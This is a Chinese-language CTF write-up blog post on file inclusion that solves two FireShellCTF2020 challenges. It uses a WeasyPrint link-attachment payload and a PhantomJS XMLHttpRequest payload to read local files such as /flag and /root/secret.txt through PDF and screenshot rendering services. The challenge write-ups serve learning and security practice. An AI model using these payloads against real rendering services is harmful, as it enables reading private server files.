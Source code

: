 ```yaml
---
title: "LFI相关"
date: 2020-08-24
description: "记录CTF中遇到的文件包含相关问题"
categories: [
  "CTF"
]
---
```


## [FireShellCTF2020]URL to PDF

给了一个网页扫描toPDF的工具，buu上开一台basic起一个nc访问一下，发现是`WeasyPrint`。

google一下发现这个轮子处理`link`标签的时候会有SSRF的问题

> 后来，我们在WeasyPrint开源代码的 [pdf.py](https://github.com/Kozea/WeasyPrint/blob/b7a9fe7dcc9d0755a3324b74d0965e806bb87378/weasyprint/pdf.py)文件中发现了属性，该属性允许向PDF报告插入任意的网页形式或本地文件内容，如：
>
> ```
> <link rel=attachment href="file:///root/secret.txt">
> ```

nc手搓一下HTTP返回

```html
HTTP/1.1 200 OK

<html>
  <head>
    <meta charset="utf-8" />
  </head>
  <body>
    <link rel="attachment" href="file:///flag">
  </body>
</html>
```

下载生成的PDF，此时flag文件文件被编码在PDF中，pdfdetach可以分离

```shell
pdfdetach -list flag.pdf
pdfdetach -save 1 flag.pdf
cat flag
```

拿到flag

## [FireShellCTF2020]ScreenShoter

这题跟上一题原理基本一致，出题点是PhantomJS的文件读漏洞

nc上手搓一下response

```html
HTTP/1.1 200 OK

<html>
    <head> 
        <meta charset="utf-8">
    </head>
    <script>
        x = new XMLHttpRequest;
        x.onload = function(){
            document.write(this.responseText)
        };
        x.open("GET", "file:///flag");
        x.send();
    </script>
</html>
```

下载flag图片，OCR一下就有了